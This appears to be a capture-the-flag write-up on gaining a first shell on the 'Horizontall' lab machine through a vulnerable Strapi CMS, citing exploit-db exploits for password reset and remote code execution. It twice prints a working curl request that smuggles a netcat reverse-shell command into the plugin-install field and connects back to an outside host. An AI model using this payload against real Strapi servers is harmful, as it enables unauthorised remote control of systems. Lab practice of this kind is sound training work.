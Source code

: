 # Getting initial shell as strapi user
## Knowing strapi version running as CMS on http://horizontall.htb/
Got strapi version running as CMS on http://horizontall.htb/ on address http://api-prod.horizontall.htb/admin/init
![[Pasted image 20210910144351.png]]
## Found exploit for strapi version 3.0.0-beta.17.4 on exploit-db
Found exploit for strapi version 3.0.0-beta.17.4 on [exploit-db](https://www.exploit-db.com/exploits/50239).
## Executed above exploit to get Remote code execution on target system and getting reverse shell
![[Pasted image 20210910154320.png]]
## Other ways to get initial shell
### 1) Set password for user 'admin' and getting JWT token via burp and then getting reverse shell via CURL command 
* In this [exploit](https://www.exploit-db.com/exploits/50237), password for `admin`
user can be set and can be logged in as admin user on http://api-prod.horizontall.htb/admin via command `python exploit_password_reset.py`
* Then we can get JWT token while uploading file in 'Files Upload' section by intercepting request in burp.
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`
### 2) Getting JWT token via code on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) and getting reverse shell via CURL
* We can get JWT token by running python script on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) via command `python test.py admin@horizontall.htb http://api-prod.horizontall.htb codibert`.
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`

